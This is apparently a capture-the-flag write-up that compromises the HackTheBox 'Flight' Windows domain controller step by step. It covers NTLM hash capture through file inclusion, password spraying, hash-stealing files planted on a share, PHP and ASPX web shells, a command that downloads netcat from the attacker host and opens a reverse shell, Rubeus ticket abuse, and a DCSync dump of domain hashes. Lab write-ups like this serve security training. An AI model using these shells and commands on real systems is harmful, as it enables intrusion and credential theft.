



Flight is a hard Windows machine that starts with a website with two different virtual hosts. One of them is vulnerable to LFI and allows an attacker to retrieve an NTLM hash. Once cracked, the obtained clear text password will be sprayed across a list of valid usernames to discover a password re-use scenario. Once the attacker has SMB access as the user `s.moon` he is able to write to a share that gets accessed by other users. Certain files can be used to steal the NTLMv2 hash of the users that access the share. Once the second hash is cracked the attacker will be able to write a reverse shell in a share that hosts the web files and gain a shell on the box as low privileged user. Having credentials for the user `c.bum`, it will be possible to gain a shell as this user, which will allow the attacker to write an `aspx` web shell on a web site that&amp;amp;amp;#039;s configured to listen only on localhost. Once the attacker has command execution as the Microsoft Virtual Account he is able to run Rubeus to get a ticket for the machine account that can be used to perform a DCSync attack ultimately obtaining the hashes for the Administrator user.

## Enumeration

This are the ports that Nmap reported as open.

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: g0 Aviation
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-21 08:13:35Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
52520/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h58m45s
| smb2-time: 
|   date: 2024-06-21T08:14:32
|_  start_date: N/A
```

This looks like a Windows DC with the domain name `flight.htb`, and a hostname of G0.

Lots of ports to potentially look at. I’ll prioritize SMB and Web, and check in with LDAP, Kerberos, and DNS if I don’t find what I need from them.

The site is for an airline:


Most the links are dead or just lead back to this page.

Given the use of DNS names, I’ll fuzz port 80 for potential subdomains with `wfuzz`:

```bash
❯  wfuzz -c --hw=530 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://flight.htb" -H "Host: FUZZ.flight.htb"

********************************************************  
* Wfuzz 3.1.0 - The Web Fuzzer *  
********************************************************  
  
Target: http://flight.htb/  
Total requests: 4989  
=====================================================================  
ID Response Lines Word Chars Payload  
=====================================================================  
000000624: 200 90 L 412 W 3996 Ch "school"  

Total time: 44.53788  
Processed Requests: 4989  
Filtered Requests: 4988  
Requests/sec.: 112.0170
```

I’ll add both to my `/etc/hosts` file along with the host name:

```bash
10.10.11.187 flight.htb school.flight.htb g0.flight.htb
```

`http://school.flight.htb/index.php?view=about.html`

The site is for an aviation school:


### RFI

The site is all placeholder text and a few page links, but nothing interesting. It’s a very common PHP structure where different pages on a site all use `index.php` with some parameter specifying what page to include. These are often vulnerable to path traversal (reading outside the current directory) and local file include (including PHP code that is executed) vulnerabilities.

On a Linux box, I’d try to read `/etc/passwd`. Since this is Windows, I’ll try `C:\windows\system32\drivers\etc\hosts`, but it returns an error:

`http://school.flight.htb/index.php?view=C:\Windows\System32\Drivers\etc\hosts`



In fact, just having just `view=\` results in the same blocked response. `view=.` returns nothing, but anything with `..` in it also results in the blocked message.
I can try with `/` instead of `\`, make sure to use an absolute path, and it works:

`http://school.flight.htb/index.php?view=C:/Windows/System32/drivers/etc/hosts`



Nothing interesting in that file, but it proves directory traversal and file read. It’s not yet clear if it’s an include or just a read.
Another way to include a file is over SMB. It won’t get anything that HTTP couldn’t get as far as execution, but the user will try to authenticate, and I could capture a NetNTLMv2 challenge/response (not really a hash, but often called one). I’ll start responder with `sudo responder -I tun0`, and then visit:

`http://school.flight.htb/index.php?view=//10.10.14.27/smbFolder/test`

```bash
❯ smbserver.py smbFolder $(pwd) -smb2support

svc_apache::flight:aaaaaaaaaaaaaaaa:f9e5ab7853f77ef2f50010223f54c359:010100000000000000af2624c4c4da01c157e905349152000000000001001000720045004400710056007600740074000300100072004500440071005600760074007400020010004e00560055004d004800440052005a00040010004e00560055004d004800440052005a000700080000af2624c4c4da01060004000200000008003000300000000000000000000000003000005dc19aecb7887e12ceb2adeca0a3dd353c3e3d5e883b5dcfcc20f40a2f0782390a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320037000000000000000000
```

`john` will find the password used by the svc_apache account, `S@Ss!K@*t13` :

## Auth as svc_apache

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash

S@Ss!K@*t13 (svc_apache)
```

These creds work over SMB:

```bash
❯ nxc smb 10.129.95.34 -u 'svc_apache' -p 'S@Ss!K@*t13' --users

-Username-                    -Last PW Set-       -BadPW- -Description-                                           
Administrator                 2022-09-22 20:17:02 0       Built-in account for administering the computer/domain 
Guest                         <never>             0       Built-in account for guest access to the computer/domain
krbtgt                        2022-09-22 19:48:01 0       Key Distribution Center Service Account 
S.Moon                        2022-09-22 20:08:22 0       Junion Web Developer 
R.Cold                        2022-09-22 20:08:22 0       HR Assistant 
G.Lors                        2022-09-22 20:08:22 0       Sales manager 
L.Kein                        2022-09-22 20:08:22 0       Penetration tester 
M.Gold                        2022-09-22 20:08:22 0       Sysadmin 
C.Bum                         2022-09-22 20:08:22 0       Senior Web Developer 
W.Walker                      2022-09-22 20:08:22 0       Payroll officer 
I.Francis                     2022-09-22 20:08:22 0       Nobody knows why he's here 
D.Truff                       2022-09-22 20:08:22 0       Project Manager 
V.Stevens                     2022-09-22 20:08:22 0       Secretary 
svc_apache                    2022-09-22 20:08:23 0       Service Apache web 
O.Possum                      2022-09-22 20:08:23 0       Helpdesk 
```

### Password Spraying

I'll create a list of all the usernames to try a password spraying.

```bash
Guest
krbtgt
S.Moon
R.Cold
G.Lors
L.Kein
M.Gold
C.Bum
W.Walker
I.Francis
D.Truff
V.Stevens
svc_apache
O.Possum
```

```bash
❯ nxc smb 10.129.95.34 -u users.txt -p 'S@Ss!K@*t13' --continue-on-success

SMB         10.129.95.34    445    G0               [-] flight.htb\Guest:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.34    445    G0               [-] flight.htb\krbtgt:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.34    445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
SMB         10.129.95.34    445    G0               [-] flight.htb\R.Cold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.34    445    G0               [-] flight.htb\G.Lors:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.34    445    G0               [-] flight.htb\L.Kein:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.34    445    G0               [-] flight.htb\M.Gold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.34    445    G0               [-] flight.htb\C.Bum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.34    445    G0               [-] flight.htb\W.Walker:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.34    445    G0               [-] flight.htb\I.Francis:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.34    445    G0               [-] flight.htb\D.Truff:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.34    445    G0               [-] flight.htb\V.Stevens:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.95.34    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.129.95.34    445    G0               [-] flight.htb\O.Possum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
```

## Auth as S.moon

And we got a hit: `S.Moon:S@Ss!K@*t13`. Looking for share folders we see that we have write access in `Shared` folder. With write access to an otherwise empty share named `Shared`, there are files I can drop that might entice any legit visiting user to try to authenticate to my host. [This post](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) has a list of some of the ways this can be done. [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) is a nice tool to create a bunch of these files.

```bash
❯ nxc smb 10.129.95.34 -u 's.moon' -p 'S@Ss!K@*t13' --shares

Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
NETLOGON        READ            Logon server share 
Shared          READ,WRITE      
SYSVOL          READ            Logon server share 
Users           READ            
Web             READ            
```

### Phishing

I’ll use `ntml_theft.py` to create all the files.

```bash
❯ ntlm_theft.py -g all -s 10.10.14.27 -f test

Created: test/test.scf (BROWSE TO FOLDER)
Created: test/test-(url).url (BROWSE TO FOLDER)
Created: test/test-(icon).url (BROWSE TO FOLDER)
Created: test/test.lnk (BROWSE TO FOLDER)
Created: test/test.rtf (OPEN)
Created: test/test-(stylesheet).xml (OPEN)
Created: test/test-(fulldocx).xml (OPEN)
Created: test/test.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: test/test-(includepicture).docx (OPEN)
Created: test/test-(remotetemplate).docx (OPEN)
Created: test/test-(frameset).docx (OPEN)
Created: test/test-(externalcell).xlsx (OPEN)
Created: test/test.wax (OPEN)
Created: test/test.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: test/test.asx (OPEN)
Created: test/test.jnlp (OPEN)
Created: test/test.application (DOWNLOAD AND OPEN)
Created: test/test.pdf (OPEN AND ALLOW)
Created: test/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: test/Autorun.inf (BROWSE TO FOLDER)
Created: test/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```

Connecting from the directory with the `ntlm_theft` output, I’ll upload desktop.ini to the share.

```bash
❯ smbclient '//10.129.95.34/shared' -U 'S.Moon%S@Ss!K@*t13'

smb: \> lcd test
smb: \> put desktop.ini
```

With `responder` or some smbServer running, after a minute we will get a connection to our server from `c.bum.`

```bash
❯ smbserver.py smbFolder $(pwd) -smb2support

c.bum::flight.htb:aaaaaaaaaaaaaaaa:31f4405fd28b2e0c09685c0c7d169ba3:0101000000000000801b1a22d7c4da01b7cb31957bd0c2c800000000010010006e00510063006e007300510071004300030010006e00510063006e007300510071004300020010004300500066006a0043006d0056004200040010004300500066006a0043006d005600420007000800801b1a22d7c4da01060004000200000008003000300000000000000000000000003000005dc19aecb7887e12ceb2adeca0a3dd353c3e3d5e883b5dcfcc20f40a2f0782390a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320037000000000000000000
```

## Auth as C.bum

`john` will crack his hash.

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash

Tikkycoll_431012284 (c.bum)
```

If we look over again to the shared folders, we see that we have write access to the Web, it means that we can upload a webshell in PHP.

```bash
❯ nxc smb 10.129.129.49 -u 'c.bum' -p 'Tikkycoll_431012284' --shares

Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
NETLOGON        READ            Logon server share 
Shared          READ,WRITE      
SYSVOL          READ            Logon server share 
Users           READ            
Web             READ,WRITE      
```

```bash
❯ nano rce.php

<?php
	system($_GET['cmd']);
?>
```

### Shell as svc_apache

Upload the webshell using `smbclient`

```bash
❯ smbclient '//10.129.129.49/Web' -U 'c.bum%Tikkycoll_431012284'

smb: \> cd school.flight.htb
smb: \school.flight.htb\> put rce.php
```

```bash
❯ curl http://school.flight.htb/rce.php?cmd=whoami

flight\svc_apache
```

To go from webshell to shell, I’ll upload `nc64.exe` to the same folder.

`http://school.flight.htb/rce.php?cmd=curl 10.10.14.27/nc.exe -o nc.exe; nc.exe 10.10.14.27 443 -e cmd`

```bash
❯ rlwrap -cAr nc -lvnp 443

C:\xampp\htdocs\school.flight.htb> whoami
flight\svc_apache
```

Inside, we will see that are 2 web folders in `C:\` (inetpub & xampp)

```powershell
C:\> dir C:\

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        6/24/2024   3:42 AM                inetpub                                                               
d-----         6/7/2022   6:39 AM                PerfLogs                                                              
d-r---       10/21/2022  11:49 AM                Program Files                                                         
d-----        7/20/2021  12:23 PM                Program Files (x86)                                                   
d-----        6/24/2024   3:35 AM                Shared                                                                
d-----        9/22/2022  12:28 PM                StorageReports                                                        
d-r---        9/22/2022   1:16 PM                Users                                                                 
d-----       10/21/2022  11:52 AM                Windows                                                               
d-----        9/22/2022   1:16 PM                xampp                                                                 
```

If we list the privileges that we have over `C:\inetpub\development` we will see that the user `c.bum` has write access.

```powershell
PS C:\inetpub> icacls development
icacls development
development flight\C.Bum:(OI)(CI)(W)
            NT SERVICE\TrustedInstaller:(I)(F)
            NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
            NT AUTHORITY\SYSTEM:(I)(F)
            NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
            BUILTIN\Administrators:(I)(F)
            BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
            BUILTIN\Users:(I)(RX)
            BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
            CREATOR OWNER:(I)(OI)(CI)(IO)(F)

```

### Pivot to C.bum

We can pivot to `c.bum` using `RunasCs.exe`:

```powershell
C:\Windows\Temp> .\RunasCs.exe c.bum Tikkycoll_431012284 cmd.exe -r 10.10.14.27:443
```

```powershell
C:\Windows\System32> whoami
flight\c.bum
```

## Internal web

The internal web seems to be running on port 8000:

```powershell
C:\> netstat -a

  TCP    0.0.0.0:80             g0:0                   LISTENING
  TCP    0.0.0.0:88             g0:0                   LISTENING
  TCP    0.0.0.0:135            g0:0                   LISTENING
  TCP    0.0.0.0:389            g0:0                   LISTENING
  TCP    0.0.0.0:443            g0:0                   LISTENING
  TCP    0.0.0.0:445            g0:0                   LISTENING
  TCP    0.0.0.0:464            g0:0                   LISTENING
  TCP    0.0.0.0:593            g0:0                   LISTENING
  TCP    0.0.0.0:636            g0:0                   LISTENING
  TCP    0.0.0.0:3268           g0:0                   LISTENING
  TCP    0.0.0.0:3269           g0:0                   LISTENING
  TCP    0.0.0.0:5985           g0:0                   LISTENING
  TCP    0.0.0.0:8000           g0:0                   LISTENING
  TCP    0.0.0.0:9389           g0:0                   LISTENING
  TCP    0.0.0.0:47001          g0:0                   LISTENING
  TCP    0.0.0.0:49664          g0:0                   LISTENING
  TCP    0.0.0.0:49665          g0:0                   LISTENING
  TCP    0.0.0.0:49666          g0:0                   LISTENING
  TCP    0.0.0.0:49667          g0:0                   LISTENING
  TCP    0.0.0.0:49673          g0:0                   LISTENING
  TCP    0.0.0.0:49674          g0:0                   LISTENING
  TCP    0.0.0.0:49684          g0:0                   LISTENING
  TCP    0.0.0.0:49696          g0:0                   LISTENING
  TCP    0.0.0.0:58724          g0:0                   LISTENING
```

Let's bring it back to us using chisel.

```bash
❯ chisel server -p 1234 --reverse

C:\Windows\Temp> .\chisel.exe client 10.10.14.27:1234 R:8000:127.0.0.1:8000 
```


Nothing useful on the page. There’s a `/contact.html` that doesn’t have any useful information either.

The response headers show that the site is hosted by IIS (rather than Apache):

```http
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 16 Apr 2018 21:23:22 GMT
Accept-Ranges: bytes
ETag: "019c25c9d5d31:0"
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET
Date: Wed, 26 Oct 2022 01:47:57 GMT
Connection: close
Content-Length: 9371
```

They also show `X-Powered-By: ASP.NET`. Typically that means that `.aspx` type pages are in use. As we have write access with `c.bum` in `C:\inetpub\development` I will try to upload a asp webshell.

### ASP webshell

```aspx
<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">      

Sub RunCmd(Src As Object, E As EventArgs)            
  Dim myProcess As New Process()            
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)            
  myProcessStartInfo.UseShellExecute = false            
  myProcessStartInfo.RedirectStandardOutput = true            
  myProcess.StartInfo = myProcessStartInfo            
  myProcessStartInfo.Arguments=xcmd.text            
  myProcess.Start()            

  Dim myStreamReader As StreamReader = myProcess.StandardOutput            
  Dim myString As String = myStreamReader.Readtoend()            
  myProcess.Close()            
  mystring=replace(mystring,"<","&lt;")            
  mystring=replace(mystring,">","&gt;")            
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"    
End Sub

</script>

<html>
<body>    
<form runat="server">        
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>        
<asp:TextBox id="xpath" runat="server" Width="300px">c:\windows\system32\cmd.exe</asp:TextBox>        
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>        
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>        
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>        
<p><asp:Label id="result" runat="server"></asp:Label>       
</form>
</body>
</html>
```

Once done, we can try to execute commands. At my `nc` listener, I get a shell as defaultapppool:



## Shell as iis apppol

```bash
❯ rlwrap -cAr nc -lvnp 443

C:\Windows\System32\inetsrv>whoami 
iis apppool\defaultapppool
```

`iis apppool\defaultapppool` is a Microsoft Virtual Account. One thing about these accounts is that when they authenticate over the network, they do so as the machine account. 
To abuse this, I’ll just ask the machine for a ticket for the machine account over the network using `Rubeus`.

### Ticket Delegation

```powershell
PS:\> .\rubeus.exe tgtdeleg /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/g0.flight.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: YM8Sxs2U+mj2wHA9tQsRwbKMxXFZONfs4laK/732flc=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFVDCCBVCgAwIBBaEDAgEWooIEZDCCBGBhggRcMIIEWKADAgEFoQwbCkZMSUdIVC5IVEKiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCkZMSUdIVC5IVEKjggQgMIIEHKADAgESoQMCAQKiggQOBIIECsm+aGmM0oXWNEEUXlQtyz4BLV4fO5PCUTxT0GpqqXXtUJzjx9Oea/mMnr4Pb4f+dT8CZ4s/8IF5lvWzd3SVVig94nSnJh3szA/lnyCoHlnnEQmvZLlOOJiT5ohkyb7Upm7Gqx/SLx923t7YjbTHMJkrDvdWSEiZZoLNVbfSmdXwEpfeZ7qbTIZ2Y8CGsQuBIxghEDHeGPMObJi4lnUAEnkcOzNJPCoBBb14gcexAOtu0548oakUbrgqbDtw/FBuwR9uVJ1dWc7N4/NCLQwpljvISkH/pvVjx9TXbszlAhcGvfEUg9MQ2qRfzzx2LBoHMufq/cXLsA4B8VXSAlVJkZdC/tiGXlErmyEblKLGM4awkVGJHjK5AoR6z6ZIjLwikEbQS55JI1vlzCCWDiO9xJJUYwKmv0/ASIZ24jmLE89Nrzz8+2em/BrehWSuAxv3oqDMOpmY5ZHxCve/CBmgt0AvcbjJk8qESATAriPn9JE0LWNd2204ISKbYzLY6rSwFbENFjMQAh1Yq0VKP/3fQHeotZkf/7FrAJwoeOviTAyXNWJAuJzaSMuxibbEld5NdAiZW0ZqTWvVp/EFuULah6iubeZQpWR1P405A+OrT+e6caOIFkNtt0sX1FLWINdSEL91rZ7PKlksEYqlCGIWLBimybt+AZcZ4X26JlGSFX5vNk32iMRKzFsynAZOiX3yHK/JBUkdEPulheri56HqY1TEgw0tbbdSvvJpBuNuYx2RspL8gM1OsN6A6puCxXpP0JROvlr/0OC5tP+p3Be/IfA93ea8F6Kb8ZllLu5B0QT0+dhRaqa0Zf5V5pEgq83zfrwA1WsgYN90A9LwOZQrqTIWT38/A0SAXYmZ7k4eV8+9BjFujHMqtvTASWyoGuGiefrgvgVud25AqmX2zK2h4YWlzLTLR/9sOnhmI9T5QH667Z6pLx5bVoBMCv5TlkdFEmirQZQE2MPjkyIeRBpBQKHYNwVZv6mhgjFs2mYnGspLmxISOdwOuhSEC7KntbKqARt2ncYDebhLj4HSiBMVvL/nEWn/sNqu8FBmmMRff6TfG/eeeUhChesXBkZLS6+rSTQwqAexwUUqX4EsrIOttenA8kc9ocDUh6h4N98Nthc8MZwe3GNKM9Tq+XA4WJrmdciXq0tbU6SjwtoKytw+uxEDneK4TnQ3ench7z9fGQxg8dA7cmuwRWZXEQyvOvkajzXt5MFz2WbH38hg2A6GvFg2APWxppIM7zB4Q6N06t3dMJTVgu+XR2LKxwDpGAVfaCIysb0sVXy4sGpoGWUn90GzpnaPHQG19Cz6HYnQ9ed1dj7XnKq5d/OZSmK4RooEfxcSV3wq+11bLn5xh8FbzqVejEd2cUhsDpWno4HbMIHYoAMCAQCigdAEgc19gcowgceggcQwgcEwgb6gKzApoAMCARKhIgQgRdZEzWb219cQpCNRe3lQVVDuryNnVYJ4u/M1TAYteY6hDBsKRkxJR0hULkhUQqIQMA6gAwIBAaEHMAUbA0cwJKMHAwUAYKEAAKURGA8yMDI0MDYyNDExMTQ1MlqmERgPMjAyNDA2MjQyMTE0NTJapxEYDzIwMjQwNzAxMTExNDUyWqgMGwpGTElHSFQuSFRCqR8wHaADAgECoRYwFBsGa3JidGd0GwpGTElHSFQuSFRC
```

With a ticket for the machine account, I can do a DCSync attack, effectively telling the DC that I’d like to replicate all the information in it to myself. To do that, I’ll need to configure Kerberos on my VM to use the ticket I just dumped.

I’ll decode the base64 ticket and save it as `ticket.kirbi`. Then `kirbi2ccache` will convert it to the format needed by my Linux system:

```bash
❯ echo 'doIFVDCCBVCgAwIBBaEDAgEWooIEZDCCBGBhggRcMIIEWKADAgEFoQwbCkZMSUdIVC5IVEKiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCkZMSUdIVC5IVEKjggQgMIIEHKADAgESoQMCAQKiggQOBIIECsm+aGmM0oXWNEEUXlQtyz4BLV4fO5PCUTxT0GpqqXXtUJzjx9Oea/mMnr4Pb4f+dT8CZ4s/8IF5lvWzd3SVVig94nSnJh3szA/lnyCoHlnnEQmvZLlOOJiT5ohkyb7Upm7Gqx/SLx923t7YjbTHMJkrDvdWSEiZZoLNVbfSmdXwEpfeZ7qbTIZ2Y8CGsQuBIxghEDHeGPMObJi4lnUAEnkcOzNJPCoBBb14gcexAOtu0548oakUbrgqbDtw/FBuwR9uVJ1dWc7N4/NCLQwpljvISkH/pvVjx9TXbszlAhcGvfEUg9MQ2qRfzzx2LBoHMufq/cXLsA4B8VXSAlVJkZdC/tiGXlErmyEblKLGM4awkVGJHjK5AoR6z6ZIjLwikEbQS55JI1vlzCCWDiO9xJJUYwKmv0/ASIZ24jmLE89Nrzz8+2em/BrehWSuAxv3oqDMOpmY5ZHxCve/CBmgt0AvcbjJk8qESATAriPn9JE0LWNd2204ISKbYzLY6rSwFbENFjMQAh1Yq0VKP/3fQHeotZkf/7FrAJwoeOviTAyXNWJAuJzaSMuxibbEld5NdAiZW0ZqTWvVp/EFuULah6iubeZQpWR1P405A+OrT+e6caOIFkNtt0sX1FLWINdSEL91rZ7PKlksEYqlCGIWLBimybt+AZcZ4X26JlGSFX5vNk32iMRKzFsynAZOiX3yHK/JBUkdEPulheri56HqY1TEgw0tbbdSvvJpBuNuYx2RspL8gM1OsN6A6puCxXpP0JROvlr/0OC5tP+p3Be/IfA93ea8F6Kb8ZllLu5B0QT0+dhRaqa0Zf5V5pEgq83zfrwA1WsgYN90A9LwOZQrqTIWT38/A0SAXYmZ7k4eV8+9BjFujHMqtvTASWyoGuGiefrgvgVud25AqmX2zK2h4YWlzLTLR/9sOnhmI9T5QH667Z6pLx5bVoBMCv5TlkdFEmirQZQE2MPjkyIeRBpBQKHYNwVZv6mhgjFs2mYnGspLmxISOdwOuhSEC7KntbKqARt2ncYDebhLj4HSiBMVvL/nEWn/sNqu8FBmmMRff6TfG/eeeUhChesXBkZLS6+rSTQwqAexwUUqX4EsrIOttenA8kc9ocDUh6h4N98Nthc8MZwe3GNKM9Tq+XA4WJrmdciXq0tbU6SjwtoKytw+uxEDneK4TnQ3ench7z9fGQxg8dA7cmuwRWZXEQyvOvkajzXt5MFz2WbH38hg2A6GvFg2APWxppIM7zB4Q6N06t3dMJTVgu+XR2LKxwDpGAVfaCIysb0sVXy4sGpoGWUn90GzpnaPHQG19Cz6HYnQ9ed1dj7XnKq5d/OZSmK4RooEfxcSV3wq+11bLn5xh8FbzqVejEd2cUhsDpWno4HbMIHYoAMCAQCigdAEgc19gcowgceggcQwgcEwgb6gKzApoAMCARKhIgQgRdZEzWb219cQpCNRe3lQVVDuryNnVYJ4u/M1TAYteY6hDBsKRkxJR0hULkhUQqIQMA6gAwIBAaEHMAUbA0cwJKMHAwUAYKEAAKURGA8yMDI0MDYyNDExMTQ1MlqmERgPMjAyNDA2MjQyMTE0NTJapxEYDzIwMjQwNzAxMTExNDUyWqgMGwpGTElHSFQuSFRCqR8wHaADAgECoRYwFBsGa3JidGd0GwpGTElHSFQuSFRC' | base64 -d | tee ticket.kirbi
```

```bash
❯ minikerberos-kirbi2ccache ticket.kirbi ticket.ccache
```

Now I will export the environment variable `KRB5CCNAME` to hold the ticket:

```bash
❯ export KRB5CCNAME=ticket.ccache
```

Before executing `secretsdump.py` we need to fix the time, so it won't broke. 

### DCSync attack

```bash
❯ sudo ntpdate 10.129.129.49

❯ secretsdump.py -k -no-pass g0.flight.htb

Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6a2b6ce4d7121e112aeacbc6bd499a7f:::
S.Moon:1602:aad3b435b51404eeaad3b435b51404ee:f36b6972be65bc4eaa6983b5e9f1728f:::
R.Cold:1603:aad3b435b51404eeaad3b435b51404ee:5607f6eafc91b3506c622f70e7a77ce0:::
G.Lors:1604:aad3b435b51404eeaad3b435b51404ee:affa4975fc1019229a90067f1ff4af8d:::
L.Kein:1605:aad3b435b51404eeaad3b435b51404ee:4345fc90cb60ef29363a5f38e24413d5:::
M.Gold:1606:aad3b435b51404eeaad3b435b51404ee:78566aef5cd5d63acafdf7fed7a931ff:::
C.Bum:1607:aad3b435b51404eeaad3b435b51404ee:bc0359f62da42f8023fdde0949f4a359:::
W.Walker:1608:aad3b435b51404eeaad3b435b51404ee:ec52dceaec5a847af98c1f9de3e9b716:::
I.Francis:1609:aad3b435b51404eeaad3b435b51404ee:4344da689ee61b6fbbcdfa9303d324bc:::
